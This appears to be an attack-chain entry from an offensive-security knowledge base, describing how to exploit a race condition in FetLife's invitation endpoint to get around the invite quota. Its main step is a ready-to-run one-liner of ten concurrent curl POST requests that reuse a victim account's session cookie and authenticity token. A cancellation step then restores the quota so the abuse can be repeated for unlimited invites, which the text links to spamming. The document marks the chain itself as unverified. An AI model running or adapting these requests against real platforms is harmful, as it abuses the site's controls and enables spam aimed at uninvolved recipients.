

# Race Condition in FetLife Invitation Endpoint to Generate Unlimited Invites

Multi-stage attack chain demonstrating exploitation of a race condition in FetLife's invite system to bypass quota enforcement and generate unlimited invitations for potential spamming.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform (FetLife.com)
- Ruby on Rails backend (inferred from authenticity_token and session handling)
- No specific ports or services beyond standard HTTPS (443)

### Initial Access Requirements

- Valid authenticated FetLife account with at least one invite available
- Session cookie (_fl_sessionid) and authenticity_token extracted from the browser or page source
- Network access to https://fetlife.com

## Detailed Attack Procedures

### Step 1: Obtain Authentication Details
procedure: [[procedures/Prepare-FetLife-Authentication]]

**Objective**: Gather necessary session and token information to authenticate requests to the invitation endpoint.

**Instructions**: Log in to FetLife via browser, inspect the invitation form at https://fetlife.com/users/invitation, and extract the _fl_sessionid from cookies and authenticity_token from the HTML form.

**Expected Output**: Valid session_id and authenticity_token values for use in subsequent requests.

**Success Indicators**:
- Session cookie is active and not expired
- Authenticity_token matches the current form

### Step 2: Send Concurrent Invites
procedure: [[procedures/Exploit-FetLife-Invitation-Race-Condition]]

**Objective**: Exploit the race condition by sending multiple simultaneous POST requests to deduct only one from the quota while creating multiple invitations.

**Instructions**: Use [[commands/concurrent-curl-invites-fetlife]] to chain 10 curl commands with unique email addresses:

```bash
curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_1}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_2}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_3}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_4}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_5}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_6}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_7}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_8}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_9}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_10}'
```

Replace placeholders with actual values. This sends 10 concurrent requests.

**Expected Output**: 10 successful invitation responses (HTTP 200 or redirect), but quota deducts only once.

**Success Indicators**:
- Multiple invitations created
- Quota reduced by only 1

### Step 3: Cancel Invites to Recover Quota
procedure: [[procedures/Cancel-FetLife-Invitations]]

**Objective**: Cancel the created invitations to refund the quota, allowing repetition for unlimited invites.

**Instructions**: Navigate to the user's invitation management page in FetLife and use the cancel buttons for each sent invitation. No automated command needed; perform manually via UI.

**Expected Output**: Invitations canceled, quota restored to original value.

**Success Indicators**:
- Quota increased back after cancellation
- Invites list shows canceled status

## Attack Chain Summary

### Key Achievements

1. Bypassed invite quota via race condition
2. Sent bulk invitations at minimal cost
3. Recovered quota through cancellation for repeated exploitation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T12:00:00Z*
